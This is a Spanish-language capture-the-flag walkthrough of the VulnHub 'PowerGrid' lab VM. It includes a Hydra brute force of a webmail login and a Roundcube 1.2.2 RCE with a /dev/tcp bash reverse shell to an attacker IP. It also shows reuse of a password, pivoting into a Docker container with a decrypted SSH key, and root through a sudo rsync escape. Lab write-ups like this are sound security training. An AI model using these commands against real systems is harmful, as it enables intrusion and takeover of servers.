



# PowerGrid Vulnhub

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.27

## Mission 

```
Los ciberdelincuentes se han apoderado de la red energética en toda Europa. Como miembro del servicio de seguridad, tiene la tarea de entrar en su servidor, 
obtener acceso de raíz y evitar que inicien su malware antes de que sea demasiado tarde.

Sabemos por inteligencia anterior que este grupo a veces usa contraseñas débiles. Le recomendamos que mire primero este vector de ataque: asegúrese de configurar sus herramientas correctamente. 
No tenemos tiempo que perder.

Desafortunadamente, los delincuentes han iniciado un reloj de 3 horas. 
¿Puede llegar a su servidor a tiempo antes de que se implemente su malware y destruyan la evidencia en su servidor?

Este ejercicio está diseñado para ser completado en una sola sesión. Apagar la máquina virtual no pausará el temporizador. Una vez que el temporizador haya terminado, la máquina CTF se apagará y no podrá iniciarla. 
Mantenga una copia de seguridad local del CTF antes de comenzar, en caso de que desee intentarlo por segunda vez.
```

## Scaneos
Comenzamos con un scaneo super rapido de la maquina

```
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.30
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 00:58 EDT
Nmap scan report for 10.0.2.30
Host is up (0.00072s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
143/tcp open  imap
993/tcp open  imaps
MAC Address: 08:00:27:91:5D:18 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.99 seconds
```

```
❯ sudo nmap -Pn -sS -n --min-rate 5000 -A -p 80,143,993 10.0.2.30
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 01:00 EDT
Nmap scan report for 10.0.2.30
Host is up (0.00025s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: IMAP4rev1 SASL-IR capabilities IDLE more have LITERAL+ Pre-login ENABLE ID STARTTLS LOGINDISABLEDA0001 post-login OK listed LOGIN-REFERRALS
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Not valid before: 2020-05-19T16:49:55
|_Not valid after:  2030-05-17T16:49:55
993/tcp open  ssl/imap Dovecot imapd
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Not valid before: 2020-05-19T16:49:55
|_Not valid after:  2030-05-17T16:49:55
|_imap-capabilities: IMAP4rev1 SASL-IR capabilities IDLE more LITERAL+ have ENABLE ID Pre-login LOGIN-REFERRALS post-login OK listed AUTH=PLAINA0001
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:91:5D:18 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 10.0.2.30
```


Viendo la pagina web podemos ver unos posibles usuarios
```
❯ curl http://10.0.2.30                                               
    [...HTML...]
	<div id="content">
		<p>We have hacked every power grid across Europe.</p>
		<p>We demand a ransom of &euro;25 Billion (in bitcoin) or the continent will plummet into darkness.</p>
		<p>This is not a drill. As you are aware, we have already trialled our methods.</p>
		<p>Our bitcoin address has been sent to your leaders. You have 3 hours before we turn your power off, and destroy our server of any evidence. Tick. Tock. Tick. Tock. Tick. Tock.</p>
                <p>deez1, p48 and all2 from Cymru1 Hacking 
```

## Gobuster

Ahora disponemos a ver con gobuster mas directorios

```
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.30                       
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.30
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/17 01:45:22 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 307] [--> http://10.0.2.30/images/]
/zmail                (Status: 401) [Size: 456]
/server-status        (Status: 403) [Size: 274]
Progress: 213581 / 220561 (96.84%)
===============================================================
2023/03/17 01:45:33 Finished
===============================================================
```

## Fuerza Bruta Hydra

Viendo el zmail nos damos cuenta que nos pide credenciales. Sabiendo que usan credenciales faciles y sus usuarios ya los dijeron, podemos probar hacer fuerza bruta con hydra **(Aviso que demora una eternidad en cargar el ataque con hydra)**

```
❯ cat users.txt 
deez1
p48
all2
Cymru1

❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f 10.0.2.30 http-get /zmail
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-17 01:31:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.0.2.30:80/zmail
[STATUS] 8785.00 tries/min, 8785 tries in 00:01h, 14335614 to do in 27:12h, 16 active
[STATUS] 8965.67 tries/min, 26897 tries in 00:03h, 14317502 to do in 26:37h, 16 active
[STATUS] 9009.57 tries/min, 63067 tries in 00:07h, 14281332 to do in 26:26h, 16 active
[80][http-get] host: 10.0.2.30   login: p48   password: electrico
[STATUS] attack finished for 10.0.2.30 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-17 01:43:49
```

Logramos entrar por el directorio /zmail y nos encontramos con otra pagina de login de roundcube, entonces usamos las mismas credenciales y logramos entrar nuevamente.

Viendo la pagina veo que la tecnologia es ``Roundcube Webmail 1.2.2``

Dentro de este mail encontramos un correo que dice Important

```
Listen carefully. We are close to our attack date. Nothing is going to stop us now. 
Our malware is heavily planted in each power grid across Europe. All it takes is a signal from this server after the timer has stopped, and nothing is going to stop that now. 
For information, I have setup a backup server located on the same network - 
you shouldn't need to access it for now, but if you do, scan for its local IP and use the SSH key encrypted below (it is encrypted with your GPG key, by the way). 
The backup server has root access to this main server - if you need to make any backups, I will leave it for you to work out how. 
I haven't got time to explain - we are too close to launching our hack.

-----BEGIN PGP MESSAGE-----

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
RO1va5L9lriZ1vmP37FxIwsrCVVcNrPJxWydvw==
=fPY9
-----END PGP MESSAGE-----
```

## Exploit Roundcube

Buscando un exploit podemos ver que Roundcube es vulnerable a RCE

```
❯ searchsploit "roundcube 1.2"                           
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
Roundcube 1.2.2 - Remote Code Execution                                                                | php/webapps/40892.txt
Roundcube Webmail 1.2 - File Disclosure                                                                | php/webapps/49510.py
------------------------------------------------------------------------------------------------------- ---------------------------------

❯ searchsploit -x php/webapps/40892.txt
```

Leyendo el proof of concept ya sabemos como actuar
Voy a interceptar la peticion de enviar un correo con burpsuite



Ahora despues de enviarlo podemos acceder a nuestro navegador y ejecutar comandos.



```
view-source:http://10.0.2.30/rce.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.0.2.4/443%200%3E%261%22

❯ nc -lvnp 443   
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.30] 55100
www-data@powergrid:/var/www/html$ 
```

Corriendo un simple comando vemos donde esta la primera flag
```
www-data@powergrid:/var/www/html$ find / -name flag* 2>/dev/null
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/pci0000:00/0000:00:03.0/net/eth0/flags
/sys/devices/virtual/net/docker0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/vethca1c286/flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/var/www/html/zmail/skins/classic/images/icons/flagged.png
/var/www/flag1.txt
```
### Flag 1
```
www-data@powergrid:/var/www/html$ cat /var/www/flag1.txt 
***********************a306c27ae

Well done getting flag 1. Are you any good at pivoting?
```

p48 esta reutilizando el password de antes

```
www-data@powergrid:/home$ su p48
Password: electrico

p48@powergrid:~$ ls
mail  privkey.gpg
```

## Pivoting

Encontramos una private key entonces ahora podemos desencriptar el password https://pgptool.org/
Utilizamos electrico en el passphrase sabiendo que p48 reutiliza sus credenciales



Nos vamos al tmp y ahi nos movemos con el mismo usuario p48

```
p48@powergrid:~$ cd /tmp
p48@powergrid:/tmp$ hostname -I
10.0.2.30 172.17.0.1 

p48@powergrid:/tmp$ nano id_rsa
p48@powergrid:/tmp$ chmod 600 id_rsa 

p48@powergrid:/tmp$ ssh -i id_rsa p48@172.17.0.2
Linux ef117d7a978f 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 20 00:22:30 2020 from 172.17.0.1
p48@ef117d7a978f:~$ 
```

### Flag 2
```
p48@ef117d7a978f:~$ ls
flag2.txt
p48@ef117d7a978f:~$ cat flag2.txt
***********************04e89df73
```

```
p48@ef117d7a978f:~$ sudo -l
Matching Defaults entries for p48 on ef117d7a978f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User p48 may run the following commands on ef117d7a978f:
    (root) NOPASSWD: /usr/bin/rsync
```

Ahora con GTFOBINS tenemos la manera de escalar privilegios https://gtfobins.github.io/gtfobins/rsync/

```
p48@ef117d7a978f:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# bash
root@ef117d7a978f:/home/p48# cd /root
```
### Flag 3
```
root@ef117d7a978f:~# cat flag3.txt
***********************0f77aa6a2

Well done for getting the third flag. Are you any good at pivoting backwards?
```

Nos deja un mensaje que deberiamos pivotar hacia atras, entonces quiza exista una ultima flag...

Simplemente nos conectamos mediante ssh

```
root@ef117d7a978f:~# ssh root@172.17.0.1
Linux powergrid 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 26 18:15:49 2020
root@powergrid:~# cd /root
```
### Flag 4
```
root@powergrid:~# cat flag4.txt
***********************876c60130

Congratulations. This is the fourth and final flag. Make sure to delete /var/www/html/startTime.txt to stop the attack (you will need to run chattr -i /var/www/html/startTime.txt first).

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by Thomas Williams - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear your comments.
```

Eliminamos el starttime y en teoria hemos salvado a Europa

```
root@powergrid:~# chattr -i /var/www/html/startTime.txt    
root@powergrid:~# rm /var/www/html/startTime.txt 
```

Con eso concluimos la maquina PowerGrid